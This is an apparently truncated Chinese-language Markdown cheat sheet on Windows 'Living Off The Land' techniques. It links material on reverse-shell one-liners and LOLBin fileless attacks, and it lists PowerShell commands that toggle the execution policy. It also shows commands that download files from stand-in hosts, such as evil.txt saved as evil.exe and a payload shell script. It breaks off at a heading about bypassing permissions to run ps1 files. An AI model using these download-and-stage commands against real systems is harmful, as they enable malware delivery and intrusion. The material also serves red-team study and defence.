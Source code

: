# Windows-LOL

`Living Off The Land`

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**相关文章**
- [Get Reverse-shell via Windows one-liner](https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/)
- [What Are LOLBins and How Do Attackers Use Them in Fileless Attacks? - Cynet](https://www.cynet.com/attack-techniques-hands-on/what-are-lolbins-and-how-do-attackers-use-them-in-fileless-attacks/)
- [Windows文件下载执行的15种姿势](https://mp.weixin.qq.com/s/tINvBuhiZwz7MbA_sffapA)
- [命令行上线小技巧](https://blog.m1kh.com/index.php/archives/694/)

**相关资源**
- [LOLBAS](https://lolbas-project.github.io/)
- https://github.com/LOLBAS-Project/LOLBAS

---

## Powershell

### 开启执行策略

```powershell
set-ExecutionPolicy RemoteSigned
```

### 关闭执行策略

```powershell
set-ExecutionPolicy Restricted
```

### 远程下载文件保存在本地

```powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.1.1/1/evil.txt','evil.exe')

# 或

$h=new-object System.Net.WebClient
$h.DownloadFile('https://xxx.com/payload/shell/test.sh','C:\Users\xxx\Desktop\test\test.sh')
```

### 命令行执行 ps1 文件 (绕过本地权限执行)
